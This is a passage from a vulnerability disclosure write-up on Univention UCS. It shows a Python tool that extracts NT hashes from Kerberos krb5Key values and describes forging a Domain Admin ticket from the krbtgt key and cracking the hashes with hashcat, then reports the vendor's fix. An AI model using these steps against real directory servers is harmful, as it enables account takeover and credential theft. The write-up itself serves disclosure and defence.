 ```python

    keyblock,salt,kvno = heimdal.asn1_decode_key(base64.b64decode(ucs_krb5key))

    if keyblock.keytype().toint() == krb5_keytype__arcfour_hmac_md5:
        NThash = binascii.hexlify(keyblock.keyvalue()).decode('utf-8')
    else:
        print(f'Keytype is: ', keyblock.keytype().toint())

    return NThash


def main():
    parser = argparse.ArgumentParser(
            prog='ProgramName',
                    description='Simple tool to extract ntlm hash out of the arcfour_hmac_md5 krb5key used by univention ucs')
    parser.add_argument('-d', help="put your base64 encoded krb5key value here", required=True)
    args = parser.parse_args()
    nt_hash = extract_NThash_from_krb5key(args.d)
    print("NThash: ",nt_hash)


if __name__ == '__main__':
    main()
```

And this worked like a charm. It allows us to extract the `NThash` out of the `krb5Key`.
Now we could take the `krb5Key` of the `krbtgt` account for example to forge a ticket as `Administrator`, which is the default "Domain Admin" in UCS.

![AdminWorks.png](.attachments/Admin_Works.png)

And that's it. We can now be everybody we want to be :-).

Maybe we can also use the other keyblock values to sign the TGTs somehow. But we didn't look into that so far.

# Exploitation attempt 3: Hash Cracking

As we are in possession of the NThashes, we are also able to try password cracking quite efficiently. We confirmed that the `sambaNTPassword` represents the actual password.
Using hashcat, some proper wordlists as well as some good rules, can open some more pathways.

Using those methods we were able to go from "any user in the directory" to "Administrator", the "Domain Admin" equivalent because of some very basic misconfigurations, a trivial but impactful bug and a recoverable password.

# The Fix

The mitigation time and responses from [Univention](https://www.univention.de/) have been extraordinary. It was a pleasure to work with them, as the communication was fast, professional as well as solution-oriented! Special thanks for this awesome experience and awareness for security!
Univention rated the bug with [7.9 (CVSS:3.1/AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:N)](https://forge.univention.org/bugzilla/show_bug.cgi?id=56324)
